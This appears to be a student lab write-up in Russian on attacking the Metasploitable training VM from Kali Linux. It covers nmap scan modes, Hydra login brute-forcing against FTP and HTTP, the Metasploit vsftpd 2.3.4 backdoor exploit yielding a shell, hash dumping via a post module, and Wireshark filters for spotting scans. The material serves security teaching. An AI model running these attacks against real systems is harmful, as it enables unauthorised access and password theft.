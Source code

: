 # Уязвимости и атаки на информационные системы
- Качаем дистриб Kali linux 
- Качаем  виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Просканируйте эту виртуальную машину, используя nmap.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.


## NMAP: основные режимы сканирования
-sS: TCP SYN-сканирование

-sT: TCP connect-сканирование

-sА: TCP FIN-сканирование

-sU: UDP-сканирование

-sX: Xmas-сканирование

-PR: ARP-пинг

--traceroute: трассировка пути

-R: разрешение имен DNS

-n: запрещение разрешения имен DNS

-sL: создать список хостов


 Попробуем разные режимы 
![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)

Агрессивный режим сканирования (-A) – наиболее часто используемый
![alt text](image-3.png)

-sV: версия софта
![alt text](image-4.png)


Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

![alt text](image-5.png)

## эксперемент с HYDRA 
создадим два файлика 
![alt text](image-6.png)
а в идеале качаем готовый seclist
```
 hydra -L user.txt -P pwd.txt ftp://192.168.31.121
```   
![alt text](image-7.png)
```
hydra -L user.txt -P pwd.txt 192.168.31.121 http-get
```
![alt text](image-8.png)


# METASPLOIT
```
kali@kali:~$ sudo service postgresql start
kali@kali:~$ sudo msfdb init
```
```
kali@kali:~$ sudo msfconsole
msf5 > db_status
```
![alt text](image-9.png)

![alt text](image-10.png)
подключим модуль сканнера 
```
use auxiliary/scanner/ftp/ftp_version
```
![alt text](image-11.png)
Добавим переменнную ``RHOSTS``
```
setg RHOSTS 192.168.31.121
run
```
![alt text](image-12.png)
Получили баннер
![alt text](image-14.png)

Подключаем модуль
```
use exploit/unix/ftp/vsftpd_234_backdoor
run
```
![alt text](image-15.png)

попали в shell
![alt text](image-16.png)
![alt text](image-17.png)

Для сбора хешей паролей
Переведем нашу сессию в фоновый режим: ``Ctrl-Z``
```
sessions -l проверим сессии
```
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/linux/gather/hashdump
```
```
msf5 post(linux/gather/hashdump) > show options
```
![alt text](image-18.png)
```
msf5 post(linux/gather/hashdump) > set session 1
msf5 post(linux/gather/hashdump) > run
```

![alt text](image-19.png)


Мы получили хэши паролей пользователей сервера.

![alt text](image-20.png)

Если вы хотите перейти к сессии №1 (например, к shell после эксплуатации vsftpd):

```
sessions -i 1
```
Если сессия "висит" в фоне
``jobs -l ``   # проверка фоновых задач
``fg %1  ``    # вернуться к задаче №1

# Анализ трафика с помощью Wireshark

![alt text](image-21.png)

![alt text](image-22.png)

Специфические фильтры для каждого типа
SYN-сканирование:

```tcp.flags.syn == 1 && tcp.flags.ack == 0```
FIN-сканирование:


```tcp.flags.fin == 1 && tcp.flags.ack == 0```
Xmas-сканирование:


```tcp.flags.fin == 1 && tcp.flags.psh == 1 && tcp.flags.urg == 1```
